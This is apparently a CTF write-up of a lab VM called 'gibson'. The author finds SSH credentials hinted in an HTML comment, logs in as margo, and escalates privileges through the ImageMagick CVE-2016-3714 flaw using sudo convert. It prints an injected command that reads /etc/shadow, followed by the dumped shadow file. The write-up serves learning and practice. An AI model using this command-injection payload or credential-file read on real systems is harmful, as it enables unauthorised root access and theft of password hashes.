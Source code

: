 Of course I was not going to be able to straightforward SSH in, so I'd better check what's in the web server.

## Web server

I opened Iceweasel and navigated to port 80. There was a single file listed: `davinci.html`

```
<!-- Damn it Margo! Stop setting your password to "god" -->
<!-- at least try and use a different one of the 4 most -->
<!-- common ones! (eugene) -->
<h1> The answer you seek will be found by brute force</h1>
```

This seemed a pretty clear hint to the SSH credentials. I tried the ssh users `Margo`, `davinci`, `root` and `eugene`
but neither was asked for a password (only publickey). I thought in being explicit, just in case:

```
ssh -o PreferredAuthentications=password -o PubkeyAuthentication=no 192.168.56.102
```

But no luck, the password login was disabled.

...Then I noticed I had tried `Margo`, not `margo`, and guess what?

```
ssh margo@192.168.56.102 #god
```

Bingo. 

## Margo

Of course `sudo su` didn't work (it would have been too easy, right?) but I was luckier with `sudo -l`. It seemed that `margo` could run `/usr/bin/convert` as root. The binary was part of the ImageMagick tool... which reminded of [CVE-2016-3714](https://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2016-3714).

After some research, I managed to run commands as root exploiting said vulnerability. The fastest way to get root with this was to edit the sudoers file, but before that I played around a little.

```
margo@gibson:~$ sudo convert 'https://example.com"|cat "/etc/shadow' out.png
root:!:16921:0:99999:7:::
daemon:*:16652:0:99999:7:::
bin:*:16652:0:99999:7:::
sys:*:16652:0:99999:7:::
sync:*:16652:0:99999:7:::
games:*:16652:0:99999:7:::
man:*:16652:0:99999:7:::
lp:*:16652:0:99999:7:::
mail:*:16652:0:99999:7:::
news:*:16652:0:99999:7:::
uucp:*:16652:0:99999:7:::
proxy:*:16652:0:99999:7:::
www-data:*:16652:0:99999:7:::
backup:*:16652:0:99999:7:::
list:*:16652:0:99999:7:::
irc:*:16652:0:99999:7:::
gnats:*:16652:0:99999:7:::
nobody:*:16652:0:99999:7:::
libuuid:!:16652:0:99999:7:::
syslog:*:16652:0:99999:7:::
messagebus:*:16921:0:99999:7:::
dnsmasq:*:16921:0:99999:7:::
landscape:*:16921:0:99999:7:::
sshd:*:16921:0:99999:7:::
libvirt-qemu:!:16921:0:99999:7:::
```